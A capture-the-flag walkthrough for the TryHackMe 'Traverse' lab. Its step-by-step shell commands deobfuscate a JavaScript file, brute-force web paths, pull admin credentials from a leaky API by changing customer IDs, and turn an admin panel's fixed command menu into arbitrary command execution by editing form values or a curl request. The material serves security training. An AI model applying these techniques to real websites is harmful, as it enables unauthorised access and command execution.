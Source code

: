 # [Traverse](https://tryhackme.com/r/room/traverse)

**What type of encoding is used by the hackers to obfuscate the JavaScript file?**

```shell
export MACHINE_IP=x.x.x.x
curl http://$MACHINE_IP/custom.min.js
```

**What is the flag value after deobfuscating the file?**

Use [prettier.io](https://prettier.io/playground/) or similar to prettify javascript code

```shell
curl http://$MACHINE_IP/custom.min.js -s | tail -n +3 | xxd -r -p > custom.js
```

**What is the name of the file containing email dumps?**

Just guess or use [dirb](https://www.kali.org/tools/dirb/) or similar to check for common paths on the webserver:

```shell
dirb http://$MACHINE_IP
```

**What is the name of the directory that Bob has created?**
**What is the key file for opening the directory that Bob has created for Mark?**

```shell
curl http://$MACHINE_IP/logs/email_dump.txt
```

**What is the email address for ID 5 using the leaked API endpoint?**

```shell
curl http://$MACHINE_IP/api/?customer_id=5 -s | jq -r .data.email
```

**What is the ID for the user with admin privileges?**

```shell
curl http://$MACHINE_IP/api/?customer_id=3 -s | jq
```

**What is the endpoint for logging in as the admin?**

Get "loginURL":

```shell
curl http://$MACHINE_IP/api/?customer_id=3 -s | jq
```

**Can you find the name of the web shell that the attacker has uploaded?**
**What is the name of the file renamed by the attacker for managing the web server?**

From last answer get "loginURL" and "password", go to that URL and log in
* In the Admin Page you can execute two commands:
  * System Owner = `whoami`
  * Current Directory = `pwd`
* You can use Web Developer Tools to "Execute" `ls` to get the answers:
  * Alternative 1: use Inspector and change `<option value="whoami">System Owner</option>` to `<option value="ls">System Owner</option>` and then "Execute"
  * Alternative 2: use Network to capture a "Execute" call, copy as curl and then change `--data-raw 'commands=whoami'` to `--data-raw 'commands=ls'` and execute in a terminal
  * Alternative 3: once logged in, get the value for PHPSESSID cookie from Storage > Cookies and execute:
    ```shell
    curl 'http://$MACHINE_IP/realadmin/main.php' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=xxxxx' --data-raw 'commands=ls'
    ```

**Can you use the file manager to restore the original website by removing the "FINALLY HACKED" message? What is the flag value after restoring the main website?**

From last answer get the password for accessing original file manager and:
* Go to http://$MACHINE_IP/realadmin/renamed_file_manager.php and log in as admin
* Download `index.php`, you can see the flag already there
* Edit `index.php` and comment or remove line #12 `$message = "FINALLY HACKED"`, changing the value will work too
* Remove old `index.php` and upload new `index.php`
* Browse the main page to see `SUCCESSFULLY RESTORED WEBSITE FLAG: ...`
